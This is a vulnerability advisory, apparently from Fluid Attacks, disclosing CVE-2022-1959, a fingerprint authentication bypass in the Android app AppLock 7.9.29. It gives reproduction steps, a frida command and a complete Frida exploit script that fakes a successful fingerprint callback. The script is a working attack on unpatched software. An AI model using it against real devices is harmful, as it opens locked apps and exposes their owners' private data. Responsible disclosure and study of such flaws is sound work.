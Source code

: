 ```yaml
---
slug: advisories/walker/
title: AppLock 7.9.29 - Improper Access Control - Fingerprint
authors: Carlos Bello
writer: cbello
codename: walker
product: AppLock 7.9.29
date: 2022-09-26 06:00 COT
cveid: CVE-2022-1959
severity: 5.5
description: AppLock 7.9.29  -  Improper Access Control - Fingerprint
keywords: Fluid Attacks, Security, Vulnerabilities, AppLock, spsoftmobile, spsoft, Fingerprint
banner: advisories-bg
advise: yes
template: advisory
---
```


## Summary

|                       |                                                        |
| --------------------- | -------------------------------------------------------|
| **Name**              | AppLock 7.9.29 - Improper Access Control - Fingerprint |
| **Code name**         | [Walker](https://en.wikipedia.org/wiki/Alan_Walker)    |
| **Product**           | AppLock (Fingerprint)                                  |
| **Affected versions** | Version 7.9.29                                         |
| **State**             | Public                                                 |
| **Release date**      | 2022-09-26                                             |

## Vulnerability

|                       |                                                                                                        |
| --------------------- | ------------------------------------------------------------------------------------------------------ |
| **Kind**              | Improper Access Control - Fingerprint                                                                  |
| **Rule**              | [115. Security controls bypass or absence](https://docs.fluidattacks.com/criteria/vulnerabilities/115) |
| **Remote**            | Yes                                                                                                    |
| **CVSSv3 Vector**     | CVSS:3.1/AV:P/AC:L/PR:H/UI:N/S:U/C:H/I:H/A:N                                                           |
| **CVSSv3 Base Score** | 5.5                                                                                                    |
| **Exploit available** | Yes                                                                                                    |
| **CVE ID(s)**         | [CVE-2022-1959](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-1959)                          |

## Description

AppLock version 7.9.29 allows an attacker with physical access to
the device to bypass biometric authentication. This is possible
because the application did not correctly implement fingerprint
validations.

## Vulnerability

In android application fingerprint implementations, the
onAuthenticationSucceded method is triggered when the system
successfully authenticates a user. Most biometric authentication
implementations rely on this method being called, without worrying
about the CryptoObject. The application logic responsible for
unlocking the application is usually included in this callback method.
This approach is trivially exploited by connecting to the application
process and calling the AuthenticationSucceded method directly, as a
result, the application can be unlocked without providing valid
biometric data.

Another common case occurs when some developers use CryptoObject but do not
encrypt/decrypt data that is crucial for the application to function properly.
Therefore, we could skip the authentication step altogether and proceed to use
the application. To solve this there is no single answer, however a good approach
is to use a fingerprint protected key store key that will be used to decrypt a
symmetric key. This symmetric key must be used to decrypt the application storage.

I attach the following link so that you can better understand the vulnerability
present in AppLock:

* https://labs.f-secure.com/blog/how-secure-is-your-android-keystore-authentication/

## Steps to reproduce

1. Install and configure AppLock.

2. Activate and configure fingerprint protection in AppLock.

3. Install and configure frida as indicated in the following [link](https://programmerclick.com/article/51481638343/).

4. Start AppLock on your device, if you set everything up correctly, you should now
   see a prompt to put your fingerprint.

5. Run the following command on your laptop.

```bash
'frida -U AppLock -l exploit.js --no-pause'
```

6. Now on your device press the 'recent' button, commonly represented by a square.
   This button opens the recent apps view so that you can switch from one open app
   to another.

7. Log back into AppLock.

8. Now all you have to do is log in again. This time you will enter the application
   instantly, without having entered a valid fingerprint.

## Exploitation

### exploit.js

```js
// exploit.js
const getAuthResult = (AuthenticationResult, crypto) => AuthenticationResult.$new(
    crypto, null, 0
);

const exploit = () => {
    console.log("[+] Hooking PassphrasePromptActivity - Method resumeScreenLock");
    const AuthenticationResult = Java.use(
        'android.hardware.fingerprint.FingerprintManager$AuthenticationResult'
    );
    const FingerprintManager  = Java.use(
        'android.hardware.fingerprint.FingerprintManager'
    );
    const CryptoObject = Java.use(
        'android.hardware.fingerprint.FingerprintManager$CryptoObject'
    );

    console.log("Hooking FingerprintManagerCompat.authenticate()...");
    const fingerprintManager_authenticate = FingerprintManager['authenticate'].overload(
        'android.hardware.fingerprint.FingerprintManager$CryptoObject',
        'android.os.CancellationSignal',
        'int',
        'android.hardware.fingerprint.FingerprintManager$AuthenticationCallback',
        'android.os.Handler'
    );

    fingerprintManager_authenticate.implementation = (
        crypto, cancel, flags, callback, handler) => {
        console.log("Bypass Lock Screen - Fingerprint");

        // We send a null cryptoObject to the listener of the fingerprint
        var crypto = CryptoObject.$new(null);
        var authenticationResult = getAuthResult(AuthenticationResult, crypto);
        callback.onAuthenticationSucceeded(authenticationResult);
        return this.authenticate(crypto, cancel, flags, callback, handler);
    }
}

Java.perform(() => exploit());
```

## Evidence of exploitation

![applock-fingerprint-bypass](https://user-images.githubusercontent.com/51862990/192392091-e6ff1169-93d4-4c5b-ba61-59fdbf7841a8.gif)

## Our security police

We have reserved the CVE-2022-1959 to refer to this issue from now on.

* https://fluidattacks.com/advisories/policy/

## System Information

* Version: AppLock (Fingerprint) 7.9.29

* Operating System: Android 8.0 (API 26)

## Mitigation

There is currently no patch available for this vulnerability.

## Credits

The vulnerability was discovered by [Carlos
Bello](https://www.linkedin.com/in/carlos-andres-bello) from the Offensive
Team of `Fluid Attacks`.

## References

**Vendor page** <https://www.spsoftmobile.com>

## Timeline

<time-lapse
  discovered="2022-09-06"
  contacted="2022-09-07"
  replied=""
  confirmed=""
  patched=""
  disclosure="2022-09-26">
</time-lapse>
